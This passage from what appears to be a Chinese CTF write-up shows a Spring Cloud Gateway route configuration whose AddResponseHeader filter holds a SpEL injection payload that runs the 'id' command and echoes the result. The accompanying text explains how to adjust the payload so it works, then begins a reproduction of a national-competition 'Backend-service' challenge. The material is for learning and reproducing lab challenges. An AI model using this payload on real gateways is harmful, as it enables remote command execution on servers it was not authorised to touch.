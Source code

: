 ```plain
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```

这里增加了一个 filters 字段，并写入 POC，但这里需要注意的坑有两点：

1.  需要修改原 POC，将字符串输入结果使用 replace() 将\\n以及\\r符号替换为空，否则会提示报错 Header 中不能包含该字符导致利用失败
2.  在 YAML 配置文件中，SpEL 表达式必须要用双引号括起来，但 POC 原本就带有双引号，会导致识别冲突，所以将 POC 内所有的双引号改为单引号，外面在用双引号括起来

完成后对配置文件进行发布，然后尝试访问`http://127.0.0.1:8888/echo/123`，可以发现成功回显了命令执行的结果

**四、国赛 Backend-service 题目复现**

（所用的是 ctfshow 提供的环境，payload 可能有些不同）

[![](assets/1700442594-1e4b393eef568a1bda1ae4f12ed813ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155636-ff4817ac-85e7-1.png)

